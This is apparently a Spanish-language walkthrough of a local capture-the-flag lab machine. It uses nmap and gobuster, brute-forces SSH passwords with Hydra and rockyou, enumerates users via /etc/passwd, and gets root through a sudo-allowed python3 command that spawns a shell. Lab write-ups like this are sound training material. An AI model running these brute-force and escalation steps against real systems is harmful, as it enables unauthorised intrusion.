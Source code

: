 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh pequenas-mentirosas.tar
```

![Pasted image 20250216110523](https://github.com/user-attachments/assets/5eabf75c-ceab-4bc7-88b2-789c2831aaa9)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250216110549](https://github.com/user-attachments/assets/f02b45c8-1542-4b22-9fe6-23a937322d41)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

Nos metemos en la web:

![Pasted image 20250216110636](https://github.com/user-attachments/assets/2e73f854-744a-42ce-8e75-be096368af95)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250216111930](https://github.com/user-attachments/assets/bee90ad0-4b65-416e-aba2-8ede48788bc0)

Nos conectamos con **SSH**:

```Bash
ssh a@172.17.0.2
```

![Pasted image 20250216112221](https://github.com/user-attachments/assets/c8f81282-e073-4aab-9f65-b83d9e6aea0f)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250216112840](https://github.com/user-attachments/assets/e184f9f9-af11-4f5c-bd3e-317f9a272a3c)

```Bash
find / -perm -4000 2>/dev/null
```

![Pasted image 20250216112941](https://github.com/user-attachments/assets/69d92420-d617-4148-865f-0c6bad2fa0f3)

No podemos.

Buscamos otros usuarios:

```Bash
cat /etc/passwd | grep sh$
```

![Pasted image 20250216112706](https://github.com/user-attachments/assets/83761bd0-bb15-4737-8a63-079253b99aee)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250216112605](https://github.com/user-attachments/assets/ab0347d0-fc0c-458b-aa89-b470ffbcc0e2)

Nos conectamos con **SSH**:

```Bash
ssh spencer@172.17.0.2
```

![Pasted image 20250216113131](https://github.com/user-attachments/assets/e6ca6daa-de28-4198-b258-688d7560b009)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250216113212](https://github.com/user-attachments/assets/4918aa60-4cbf-4cab-8992-9a43a37820fb)

```Bash
sudo python3 -c 'import os; os.system("/bin/bash")'
```

![Pasted image 20250216113817](https://github.com/user-attachments/assets/d9cde9b2-6689-4c15-a554-44a603e020aa)

```Bash
whoami
```

![Pasted image 20250216113843](https://github.com/user-attachments/assets/50079049-b1b8-4284-ac1a-f584979e29b6)
